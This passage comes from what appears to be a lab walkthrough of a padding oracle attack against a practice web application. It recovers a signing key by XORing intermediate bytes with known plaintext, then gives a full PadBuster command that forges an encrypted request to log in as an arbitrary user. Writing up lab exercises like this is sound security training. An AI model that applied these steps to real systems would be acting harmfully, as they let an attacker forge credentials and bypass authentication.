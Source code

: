 
Obtaining the key will look as follows:

Block 1 Results:
```bash
[+] Cipher Text (HEX): 6b664ef0359fe233e021ad36b12d8e32
[+] Intermediate Bytes (HEX): 221449095f050045505c5e671003460d
[+] Plain Text: "I      _EP\^gF
```

Step 10: Retrieving the signing key.
```bash
To get the key, we need to XOR the hex representation of the ciphertext (Intermediate bytes - hex for "I _EP\^gF) with the hex representation of "ApplicationUsern", which is 0x4170706c69636174696f6e557365726e.

# Visit a XOR calculator website like https://xor.pw:
```


Provide the following hex values in the input fields:
```bash
Input 1: 4170706c69636174696f6e557365726e
Input 2: 221449095f050045505c5e671003460d
```

```bash
The result is 0x63643965366661313933303263663463, which translates to cd9e6fa19302cf4c in ASCII (coverted using https://www.rapidtables.com/convert/number/hex-to-ascii.html):
```

```bash
Signing Key: cd9e6fa19302cf4c
```

Step 11: Craft a custom username and password.

To make the application receive **authorization** as the username and **bypass** as the password, we would provide similar arguments to PadBuster, as before, like the ones set to obtain the encryption key. 

- PadBuster's base will be the first block with the prefix and the same error indicator. The only addition is padding to the plaintext to close the "previous" argument when encrypting (we need data in the below format):

```bash
Application_garbage_data=xyz&ApplicationUsername=authorization&Password=bypass
```

Note that **=xyz** can be replaced with =anything& as we just want to **close** the first argument in the GET request. Otherwise, all the encrypted data would be understood by the application as the value of the previous parameter and would not be treated as username and password values:

Command:
```bash
padbuster "http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32" "6b664ef0359fe233e021ad36b12d8e32" 16 -encoding 1 -error "ApplicationUsername missing" -prefix "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e" -plaintext "=xyz&ApplicationUsername=authorization&Password=bypass"
```
